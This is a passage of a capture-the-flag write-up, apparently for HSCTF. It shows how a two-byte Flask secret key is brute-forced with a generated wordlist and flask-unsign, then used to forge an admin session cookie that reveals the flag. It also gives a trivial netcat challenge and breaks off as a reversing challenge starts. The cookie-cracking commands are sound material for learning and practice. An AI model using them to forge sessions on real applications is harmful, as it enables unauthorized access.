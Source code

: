 Summary: Given source code leaks secret key is only 2 random bytes. Brute force
wordlist of all possible keys using `flask-unsign`.

Generate the wordlist:

```python
>>> with open("bytes.txt", "wb") as outfile:
...   for b in range(0xFF):
...     for b2 in range(0xFF):
...       outfile.write(bytes([b])+bytes([b2]))
...       outfile.write(b"\n")
```

Then brute force the key (grab a cookie via `curl -v`):

```text
flask-unsign -u -c eyJuYW1lIjoidXNlciJ9.ZH3cKg.CswCZIq-a42bBOG5NArg3k6X7pw  --wordlist bytes.txt --no-literal-eval
```

Gives "p6" as the key. Then just generate a new cookie:

```text
flask-unsign --sign -c '{"name":"admin"}' --secret 'p6' --legacy
eyJuYW1lIjoiYWRtaW4ifQ.ZH3cOA.NUfarqoPU5Yhwj9jzxdYQ_L48ws
```

Copy+paste that as the session cookie, and then reload the `/flag` and it gives
us the flag.

Flag is `flag{h0w_d1d_y0u_cr4ck_th3_k3y??}`.

### misc

#### intro-to-netcat

> `nc intro-to-netcat.hsctf.com 1337`
>
> How to install netcat: For Windows: https://nmap.org/ncat/
>
> For Mac: comes pre-installed
>
> For Linux: use your package manager

Connect to the endpoint in the description and it prints the flag.

Flag is `flag{netcat_is_cool}`.

### rev

#### back-to-basics

> Try to solve it with your eyes closed
>
> Attached file: ReverseEngineeringChallenge.java

The attached file is un-obfuscated Java:
